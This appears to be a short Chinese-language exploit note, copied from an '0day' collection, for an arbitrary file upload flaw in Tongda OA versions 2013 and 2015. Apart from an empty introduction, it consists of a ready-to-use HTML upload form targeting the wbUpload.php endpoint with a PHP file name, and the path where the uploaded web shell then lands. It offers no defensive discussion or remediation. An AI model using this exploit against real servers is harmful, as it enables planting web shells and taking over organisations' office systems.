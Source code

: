 # 通达 oa 任意⽂件上传漏洞

> 原文：[http://book.iwonder.run/0day/通达 oa/11.html](http://book.iwonder.run/0day/通达 oa/11.html)

## 一、漏洞简介

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

EXP:

```
<form enctype="multipart/form-data" action="http://0-sec.org/general/vmeet/wbUpload.php
?fileName=test.php+" method="post">
<input type="file" name="Filedata" size="50"><br>
<input type="submit" value="Upload">
</form> 
```

上传 jpg 之后 shell 地址为

```
http://0-sec.org/general/vmeet/wbUpload/test.php 
```

